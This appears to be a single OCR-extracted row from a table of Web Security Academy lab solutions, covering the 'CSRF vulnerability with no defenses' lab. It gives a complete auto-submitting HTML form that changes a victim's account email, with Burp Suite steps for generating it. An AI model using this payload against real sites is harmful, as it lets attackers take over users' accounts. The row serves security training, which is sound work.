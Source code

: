 |42    |CSRF vulnerability with no defenses                                                                                      |<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">     <input type="hidden" name="email" value="anything%40web-security-academy.net"> </form> <script>         document.forms[0].submit(); </script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |Right-click on the request, select Engagement Tools > Generate CSRF PoC.  Make sure the option to include an auto-submit script is enabled.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |Apprentice, CSRF                            |